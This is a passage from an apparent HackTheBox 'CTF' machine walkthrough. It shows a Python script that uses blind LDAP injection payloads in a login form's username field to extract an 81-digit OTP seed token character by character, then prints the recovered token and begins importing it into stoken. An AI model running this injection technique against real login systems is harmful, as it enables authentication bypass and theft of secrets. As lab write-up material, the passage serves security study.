 ```
	post_data = {"inputUsername":payload,"inputOTP":"0000"}
	req = requests.post("http://10.10.10.122/login.php",data=post_data)
	response = req.text
	return response

def check_response(response):
	if "Cannot login" in response:
		return True
	else:
		return False

def exploit():
	global token
	n_list = [n for n in range(10)]
	for i in n_list:
		payload = "%2A%29%28uid%3D%2A%29%29%28%7C%28pager%3D{}{}%2A".format(token,str(i))
		response = send_payload(payload)
		if check_response(response):
			token+=str(i)

token = ""
print(YELLOW + "[*] Extracting Token")
while len(token) != 81:
	exploit()
	sys.stdout.write("\r" + YELLOW + "[*] Status : " + token)
	sys.stdout.flush()
else :
	print(GREEN + "\n[!] Done !")
	print(GREEN + "[*] Token : " + token)
```
<br>
![](/images/hackthebox/ctf/8.gif)
#### It took some minutes to finish and now we have the token :
![](/images/hackthebox/ctf/9.png)
```
285449490011357156531651545652335570713167411445727140604172141456711102716717000
```
#### I installed [`stoken`](https://github.com/cernekee/stoken) (`apt-get install stoken`), Then I imported the token :